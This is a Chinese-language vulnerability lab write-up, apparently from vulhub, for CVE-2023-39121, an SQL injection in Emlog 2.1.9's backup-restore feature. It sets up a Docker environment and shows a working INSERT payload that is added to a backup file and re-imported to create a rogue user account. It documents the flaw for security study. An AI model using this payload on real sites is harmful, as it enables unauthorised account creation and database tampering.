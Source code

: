 # Emlog data.php 后台SQL注入漏洞（CVE-2023-39121）

Emlog 是一款开源博客系统。该漏洞存在于数据备份/恢复功能中，由于输入验证不充分，攻击者可通过特制的备份文件执行任意 SQL 语句。

参考链接：

- <https://github.com/safe-b/CVE/issues/1#issue-1817133689>
- <https://www.emlog.net/docs/install/install_docker/>
- <https://hub.docker.com/layers/emlog/emlog/pro-latest-php7.4-apache/images/sha256-55bcc4861e1cc99ad79505be05ca3f3e5d9bb5dd16b8f2edc6ae62f7315cb8df>

## 漏洞环境

执行如下命令启动一个emlog2.1.9版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip/install.php`会跳转到安装页面。注册一个用户名、密码，然后安装。完成之后，登录后台管理界面：

## 漏洞利用

1. 点击系统->数据->开始备份

   ![image-20250620130109114](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/1.png)

2. 发现下载了一个sql文件

   ![image-20250620130800739](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/2.png)

3. 打开sql文件，添加一条sql语句（插入一个用户为例）

   ```
   INSERT INTO emlog_user VALUES('110','','$P$BnTaZnToynOoAVP6T/MiTsZc9ZAQNg.',(select user()),'writer','n','','123@qq.com','','','0','1687261845','1687261845');
   ```

   ![image-20250620131017485](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/3.png)

4. 将刚才修改的sql文件导入

   ![image-20250620131122459](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/4.png)

5. 发现新增了一个用户，说明sql注入成功

   ![image-20250620131307794](https://github.com/vulhub/vulhub/emlog/CVE-2023-39121/5.png)
